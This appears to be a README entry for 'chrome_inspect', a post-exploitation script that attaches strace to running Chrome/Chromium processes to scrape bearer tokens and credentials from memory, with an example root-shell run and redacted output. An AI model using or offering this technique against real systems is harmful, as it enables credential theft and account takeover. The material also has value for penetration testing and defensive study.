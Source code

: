 # Scripts

## chrome_inspect

### Description
This script will use `strace` to attach `chrom{e,ium}` running processes and search for the strings
matching the `regex` provided. It is useful in post-exploitation for dumping tokens and credentials
after you have privileged access (or when `sys.yama.ptrace == 0`).

### Example

```
root@host:~# ./chrome_inspect 'Bearer [a-zA-Z0-9-_+/.]*' /tmp/jwt_tokens
[+] - Looking for regex 'Bearer [a-zA-Z0-9-_+/.]*' and outputing to /tmp/out
[+] - Press Ctrl-C to terminate execution.
[+] - Starting cleanup...
[+] - Uniq token values:
Bearer <REDACTED_TOKEN>
Bearer <REDACTED_TOKEN>
[+] - Killing ptrace processes.

```

